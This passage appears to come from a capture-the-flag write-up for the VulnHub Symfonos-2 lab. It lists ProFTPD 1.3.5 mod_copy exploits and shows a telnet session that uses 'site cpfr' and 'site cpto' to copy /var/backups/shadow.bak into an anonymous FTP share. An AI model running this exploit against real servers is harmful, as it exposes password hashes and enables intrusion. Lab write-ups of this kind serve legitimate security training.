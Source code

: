 ## TCP/21 - FTP - ProFTPD 1.3.5 File Copy 
1. Search exploits for `ProFTPD 1.3.5`
	```
	-----------------------------------------------------------------------------------
	Exploit Title						   |  Path		  
	----------------------------------------------------------------------------------- 
	ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)  | linux/remote/37262.rb
	ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution        | linux/remote/36803.py
	ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)    | linux/remote/49908.py
	ProFTPd 1.3.5 - File Copy 				   | linux/remote/36742.txt
	```
	- `RCE` requires us to have access to a directory
2. Use `ProFTPd 1.3.5 - File Copy `
	![](images/Pasted%20image%2020220124002839.png)
3. Exploit
	1. Copy `/var/backups/shadow.bak` to `/home/aeolus/share` (anonymous share)
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/exploit]
		└─# telnet $ip 21
		Trying 192.168.236.7...
		Connected to 192.168.236.7.
		Escape character is '^]'.
		220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.236.7]
		site cpfr /var/backups/shadow.bak
		350 File or directory exists, ready for destination name
		site cpto /home/aeolus/share/shadow.bak
		250 Copy successful
		```